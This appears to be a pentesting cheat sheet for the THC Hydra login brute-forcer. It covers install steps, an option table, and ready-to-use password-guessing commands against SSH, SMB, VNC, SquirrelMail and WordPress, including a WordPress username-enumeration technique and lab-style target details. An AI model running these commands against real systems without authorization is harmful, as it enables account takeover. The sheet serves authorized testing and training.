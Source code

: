 # Clone
```bash
git clone https://github.com/vanhauser-thc/thc-hydra
```

# Compile
```bash
./configure
make
make install
```

| Option | Description |
|--------|-------------|
| -R |      restore a previous aborted/crashed session |
| -I |      ignore an existing restore file (don't wait 10 seconds) |
| -S |      perform an SSL connect |
| -s PORT |  if the service is on a different default port, define it here |
| -l LOGIN or -L FILE | login with LOGIN name, or load several logins from FILE |
| -p PASS  or -P FILE | try password PASS, or load several passwords from FILE |
| -x MIN:MAX:CHARSET | password bruteforce generation, type "-x -h" to get help |
| -y |      disable use of symbols in bruteforce, see above |
| -r |      use a non-random shuffling method for option -x |
| -e nsr |   try "n" null password, "s" login as pass and/or "r" reversed login |
| -u |      loop around users, not passwords (effective! implied with -x) |
| -C FILE |  colon separated "login:pass" format, instead of -L/-P options |
| -M FILE |  list of servers to attack, one entry per line, ':' to specify port |
| -o FILE |  write found login/password pairs to FILE instead of stdout |
| -b FORMAT | specify the format for the -o FILE: text(default), json, jsonv1 |
| -f / -F |   exit when a login/pass pair is found (-M: -f per host, -F global) |
| -t TASKS | run TASKS number of connects in parallel per target (default: 16) |
| -T TASKS | run TASKS connects in parallel overall (for -M, default: 64) |
| -w / -W TIME |  wait time for a response (32) / between connects per thread (0) |
| -c TIME |   wait time per login attempt over all threads (enforces -t 1) |
| -4 / -6 |   use IPv4 (default) / IPv6 addresses (put always in [] also in -M) |
| -v / -V / -d |  verbose mode / show login+pass for each attempt / debug mode  |
| -O |      use old SSL v2 and v3 |
| -K |      do not redo failed attempts (good for -M mass scanning) |
| -q |      do not print messages about connection errors |
| -U |      service module usage details |
| -m OPT |    options specific for a module, see -U output for information |
| -h |      more command line options (COMPLETE HELP) |
| server |    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option) |
| service |   the service to crack (see below for supported protocols) |
| OPT |       some service modules support additional input (-U for module help) |

```bash
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

# Bruteforce
##### General Syntax
```bash
hydra -L <Username List> -P <Password List> <Target Host> <Protocol>
hydra -f -l <username> -P <Password List> <Target Host> <Protocol>
hydra -f -l <username> -P <Password List> <Protocol>://<Target Host> 

# -l specifies username
# -L specifies username list
# -p specifies password
# -P specifies password list
# -t <#> specifies thread count per host (optional).
# -T <#> specifies total thread count across all hosts (optional).
# -f quits on success.
# -M <Filename> specifies target hosts list
# -o <Filename> outputs the results to the file specified
```

##### SSH
```bash
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <Target Host> ssh
```

##### SMB
```bash
hydra -L users.txt -P <Password List> <Target Host> smb
```

##### SquirrelMail (HTTP Form Post)
```bash
hydra -l <username> -P log1.txt 10.10.34.188 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

##### VNC
```bash
hydra -P <Password List> vnc://<Target Host> -V -f -t 4
```

##### WordPress (HTTP Form Post)
```bash
hydra -f -l <username> -P <Password List> <Target Host> -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# Check for usernames.  The password does not matter, because WordPress reports whether the username is invalid or the password.
hydra -vV -L fsocity.dic.uniq -p wedontcare <Target Host> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -o wpusers.txt
# Check for passwords.  Use usernames recovered from previous step.
hydra -vV -L wpusers-clean.txt -P fsocity.dic.uniq <Target Host> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -o wppasswords.txt
```
###### [Test WordPress Logins With Hydra on Kali Linux](https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux/)


# References
[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
